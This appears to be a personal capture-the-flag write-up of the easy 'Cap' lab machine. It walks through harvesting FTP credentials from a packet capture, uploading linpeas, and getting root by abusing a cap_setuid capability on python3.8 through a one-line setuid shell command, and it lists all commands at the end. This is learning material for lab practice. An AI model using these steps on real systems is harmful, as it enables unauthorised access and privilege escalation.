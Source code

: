 ## 🐚 CAP
**Level**: easy  
**Date**: August 5, 2025  
**Goal**: get the user flag and root flag 

---

### 🧰 Tools  
- `nmap`  
- `ftp`  
- `ssh`  
- `wireshark`  
- `linpeas.sh`  
- Linux post-exploitation enumeration techniques  
---

### 🧭 Steps  

1. 🔎 **Scan the machine** for open services:
   ```bash
   nmap -sC -sV -n -F -T4 10.129.X.X
   ```
   found the open port of SSH and FTP 

---

2. 🌐 **Access the website** at `http://10.129.X.X`  
   A cost tracking panel was displayed.

---

3. 📁 **Explore web paths**:
   - Visited `/data/5` — different view  
   - Visited `/data/0` — download page for a `.pcap` file

---

4. 🧪 **Analyze `0.pcap` in Wireshark**:
   - Discovered FTP protocol traffic  
   - Found credentials for user `nathan`

---

5. 🔐 **Login via FTP**:
   ```bash
   ftp 10.129.X.X  
   # Username: nathan  
   # Password: [from .pcap file]
   ```

---

6. 📜 **Enumerate FTP directory**:
   ```bash
   ls -al  
   cat user.txt  
   # Retrieved user flag
   ```

---

7. 📡 **Switch to SSH**:
   ```bash
   ssh nathan@10.129.X.X  
   ```

---

8. 👤 **Check user groups and privileges**:
   ```bash
   id
   ```

---

9. 📦 **Download and upload `linpeas.sh` for enumeration**:
   On local machine:
   ```bash
   scp linpeas.sh nathan@10.129.X.X:/home/nathan/
   ```

   On target machine:
   ```bash
   chmod +x linpeas.sh  
   ./linpeas.sh
   ```

---

10. ⚙️ **Discover Linux Capabilities**:
   ```bash
   find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
   ```

---

### Output
```bash
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

---

11. 🚀 **Exploit capability to escalate to root**:
   ```bash
   /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
   ```

---

12. 🏁 **Become root and retrieve the root flag**:
   ```bash
   cd /  
   cd root  
   ls  
   cat root.txt
   ```

---

### 💬 Notes  
- This was the **first full machine** you solved! 🎉  
- i learned to extract FTP credentials from `.pcap` files  
- i practiced uploading and executing post-exploitation tools  
- i discovered **Linux capabilities** for privilege escalation  
---

### 💣 Payloads Used  
```bash
nmap -F 10.129.X.X  
ftp 10.129.X.X  
ssh nathan@10.129.X.X  
scp linpeas.sh nathan@10.129.X.X:/home/nathan/  
chmod +x linpeas.sh  
./linpeas.sh  
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;  
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'  
cat user.txt  
cat root.txt
```
